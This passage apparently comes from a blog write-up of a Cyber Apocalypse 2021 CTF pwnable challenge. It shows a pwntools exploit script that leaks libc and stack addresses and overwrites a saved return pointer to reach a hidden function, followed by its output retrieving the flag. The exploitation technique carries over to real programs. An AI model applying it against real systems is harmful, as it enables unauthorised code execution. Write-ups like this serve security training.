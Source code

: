 ```
        r.recvuntil("> ")
        r.sendline("n")
        r.recvline()
        d  = r.recvline()
    return d

def plant(retptr, win):
    r.sendline("1")
    r.recvuntil("> ")
    r.sendline(str(retptr))
    r.recvuntil("> ")
    r.sendline(str(win))
    print(r.recvall())      # return the flag

r = remote("138.68.182.108", 31093)

# leak libc address (printf)
d = recycle(5)
d = d.decode("utf-8")[-16:].replace("]", "")
printf_libc = int(d, 16)
print(f"printf@libc: 0x{printf_libc:2x}")

# get libc base address and find environ pointer in libc
libc.address = printf_libc - libc.sym.printf
print(f"libc base  : 0x{libc.address:2x}")
print(f"environ libc: 0x{libc.sym.environ:2x}")

# leak stack address via environ pointer in libc
d = recycle(5)
r.sendline(str(libc.sym.environ))
environ_stack = int.from_bytes(r.recvline()[-7:-1], "little")
print(f"environ stack: 0x{environ_stack:2x}")

# get plant()'s saved return pointer by subtracting 288 bytes from environ
plant_retptr = environ_stack - 288
print(f"plant() saved return pointer: 0x{plant_retptr:2x}")

# overwrite plant()'s saved return pointer with hidden_resources()
plant(plant_retptr, elf.sym.hidden_resources)
```

And here it is retrieving the flag:

```
► ./sploit.py SILENT=1
printf@libc: 0x7f85ab613f70
libc base  : 0x7f85ab5af000
environ libc: 0x7f85ab99d098
environ stack: 0x7fffeb322988
plant() saved return pointer: 0x7fffeb322868
b'\n\x1b[1;32765;32mWhere do you want to plant?\n1. City\n2. Forest\n\x1b[0m> Thanks a lot for your contribution!\nYou found a hidden vault with resources. You are very lucky!\nCHTB{u_s4v3d_th3_3nv1r0n_v4r14bl3!}\n'
```

#### [Source](http://blog.techorganic.com/2021/04/26/cyber-apocalypse-ctf-2021-pwnables/)

<br/>
---
